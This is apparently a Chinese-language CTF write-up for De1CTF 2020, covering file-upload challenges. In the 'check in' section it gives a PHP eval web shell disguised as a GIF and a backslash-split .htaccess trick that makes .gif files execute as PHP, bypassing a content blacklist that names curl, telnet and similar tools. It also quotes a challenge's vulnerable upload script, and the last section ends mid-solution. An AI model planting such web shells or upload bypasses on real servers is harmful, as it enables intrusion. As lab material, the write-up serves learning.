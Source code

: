 ```yaml
---
title: De1ctf记录
date: 2020-05-02 10:55:23
updated: 2020-05-02 10:55:23
tags:
 - De1CTF2020
categories:
---
```


# web

## **check in**

打开链接是一个文件上传页面，抓包发现服务器是php5.4.16版本。上传一句话木马提示文件类型错误。后缀名不能是php，phtml,php2等之类的。还有MIME过滤，还对内容进行了过滤,不能包含一下字符

```
perl|pyth|ph|auto|curl|base|>|rm|ruby|openssl|war|lua|msf|xter|telnet in contents!
```

修改文件名为1.gif，MIME为image/gif

过滤了ph。不能使用<?php标签。php版本为5.4.16，支持使用php短标签

上传.htaccess，其中有过滤，使用`\`换行

```
//1.gif
GIF89a
<?=
eval($_POST[cmd]);
```

```
//.htaccess
AddType application/x-httpd-p\
hp .gif
```

然后蚁剑连接，flag在更目录下。



## mixture







## Hard_Pentest_1

打开题目给了源码

```php+HTML
<?php
//Clear the uploads directory every hour
highlight_file(__FILE__);
$sandbox = "uploads/". md5("De1CTF2020".$_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);

if($_POST["submit"]){
    if (($_FILES["file"]["size"] < 2048) && Check()){
        if ($_FILES["file"]["error"] > 0){
            die($_FILES["file"]["error"]);
        }
        else{
            $filename=md5($_SERVER['REMOTE_ADDR'])."_".$_FILES["file"]["name"];
            move_uploaded_file($_FILES["file"]["tmp_name"], $filename);
            echo "save in:" . $sandbox."/" . $filename;
        }
    }
    else{
        echo "Not Allow!";
    }
}

function Check(){
    $BlackExts = array("php");
    $ext = explode(".", $_FILES["file"]["name"]);
    $exts = trim(end($ext));
    $file_content = file_get_contents($_FILES["file"]["tmp_name"]);

    if(!preg_match('/[a-z0-9;~^`&|]/is',$file_content)  && 
        !in_array($exts, $BlackExts) && 
        !preg_match('/\.\./',$_FILES["file"]["name"])) {
          return true;
    }
    return false;
}
?>

<html>
<head>
<meta charset="utf-8">
<title>upload</title>
</head>
<body>

<form action="index.php" method="post" enctype="multipart/form-data">
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="submit">
</form>

</body>
</html>
```

抓包查看是php7.2

